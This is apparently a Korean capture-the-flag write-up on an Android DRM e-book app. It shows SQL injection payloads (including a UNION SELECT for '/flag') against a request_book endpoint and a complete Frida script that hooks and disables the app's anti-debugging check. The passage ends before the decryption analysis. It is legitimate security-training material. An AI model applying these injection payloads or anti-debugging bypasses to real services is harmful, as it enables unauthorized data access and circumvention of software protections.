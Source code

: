 각각의 기능을 써보면 `books` 기능을 통해 책의 기본적인 정보를 얻어오고, `request_book` 기능을 통해 복호화를 해제하기 위한 정보와 다운로드 경로를 얻어오며, 마지막으로 책을 다운로드한다는 것을 알 수 있다.

특정 책을 요청할 때, 아래와 같이 요청을 만들게 된다:
```
/vXxUDAXOnDqtlt13Vfgods6n/request_book?id=
```
조작할 부분이 해당 부분밖에 존재하지 않았다고 생각했기 때문에 `SQL Inection`을 시도하였다.
```
/vXxUDAXOnDqtlt13Vfgods6n/request_book?id=1 limit 0,1 # Success
/vXxUDAXOnDqtlt13Vfgods6n/request_book?id=1 limit 1,1 # Fail
```
위 테스트를 통해 `SQL Injection`이 가능하다고 결론을 내릴 수 있다. 반환되는 정보가 `fileName` 이라고 추측하여 아래와 같은 구문을 만들었다:
```
/vXxUDAXOnDqtlt13Vfgods6n/request_book?id=9 UNION ALL SELECT \'/flag\'
```
이를 통해 암호화된 `/flag`와 `key`를 얻을 수 있다.
수동으로 JNI decrypt 함수를 호출하여 바로 복호화된 `/flag`를 얻고 싶었지만 동작하지 않았기 때문에 JNI를 분석하기로 했다.

JNI를 분석하여 복호화 루틴을 분석하기만 하면 되기 때문에 간단할 것이라 생각했지만, 패킹이 걸려있는 듯 보였고 상황 상(군대) 에뮬레이터를 이용한 동적 디버깅만이 가능했다.
하지만 ARM JNI만이 정상적으로 동작했고, x86 64 JNI는 동작하지 않았기 때문에 루팅된 안드로이드 폰이 존재하지 않는 이상 메모리에 올라간 언패킹된 JNI를 정적으로 분석하는 것만이 가능했다.

또한 안티 디버깅이 존재하는데, 이는 후킹으로 간단히 우회할 수 있다:
```py
import frida
import sys

DEVICE = "127.0.0.1:5575"
PACKAGE = "com.theori.dreamdrm"

def on_message(message, data):
    print(f"{message} -> {data}")

js = '''
Java.perform(function(){
    var antiClass = Java.use("y.e");
    antiClass.c.implementation = function() {
        console.log("Hooking y.antiClass.detetAnti: ");
        console.log("Done.")

        return;
    }
});
'''
try:
    dev = frida.get_device(DEVICE)
    # dev = frida.get_usb_device()
    pid = dev.spawn([PACKAGE])
    print(f"App is Starting.. {pid}")
    process = dev.attach(pid)
    dev.resume(pid)
    
    script = process.create_script(js)
    script.on('message', on_message)
    print("Running..")
    script.load()
    input()

except Exception as e:
    print(e)
```
